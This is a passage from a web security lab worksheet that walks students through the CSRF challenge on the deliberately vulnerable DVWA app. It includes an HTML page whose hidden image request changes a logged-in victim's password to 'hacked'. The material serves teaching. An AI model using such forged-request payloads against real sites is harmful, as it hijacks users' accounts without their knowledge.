 ## DVWA challenges {#dvwa-challenges}

For these challenges, you will need your Zap proxy open and a browser window that is hooked up to work with it.

==action: In Firefox, navigate to http://localhost/ and log in using the default credentials: admin/password==.

### Low Security Level {#low-security-level}

DVWA has four different security levels: low, medium, high and impossible. ==action: Select "DVWA Security" from the left-hand side menu and read the information about what the different security levels mean==. ==action: Ensure "low" is selected==.

==action: Select "CSRF" from the left-hand side menu==.

First, we are going to use the form as intended to understand how it works. ==action: Make sure you use a proxy so you can see the requests that are sent==.

==action: Enter a new password in both fields and click on "Change"==.

==action: Open the "History" tab in Zap and find your request==.

![][image-3]

> Question: What HTTP method is used by the application to send your password to the server?

> Question: Can you see any problems with passwords being sent this way?

Now that we understand how to send a request to the server to change passwords, we are going to write a simple HTML form that, when opened, forces the logged-in user to send a password change request to the server. Provided the victim is logged in, their PHPSESSID cookie will be included automatically, so the server will have no way of knowing that they never intended to send that request.

==action: Open a terminal and type the command below to create a file called helloWorld.html==:

```bash
vi helloWorld.html
```

==action: Press the "i" key to enter "insert mode"==.

==action: Enter and save this content (Ctrl + Shift + V to paste):==

```html
<!DOCTYPE html>  
<html>  
  <head></head>  
  <body>
    <p>Hello world!</p>  
    <img src="http://localhost/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change"/>  
  </body>  
</html>
```

==action: Press the "ESC" key to exit "insert mode"==.


[^1]: Adapted from original payload published in: [https://hd7exploit.wordpress.com/2017/05/27/dvwa-csrf-high-level/](https://hd7exploit.wordpress.com/2017/05/27/dvwa-csrf-high-level/)
[image-1]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-1.png
[image-2]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-2.png
[image-3]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-3.png
[image-4]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-4.png
[image-5]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-5.png
[image-6]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-6.png
[image-7]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-7.png
[image-8]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-8.png
[image-9]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-9.png
[image-10]: {{ site.baseurl }}/assets/images/web_security/6_csrf/image-10.png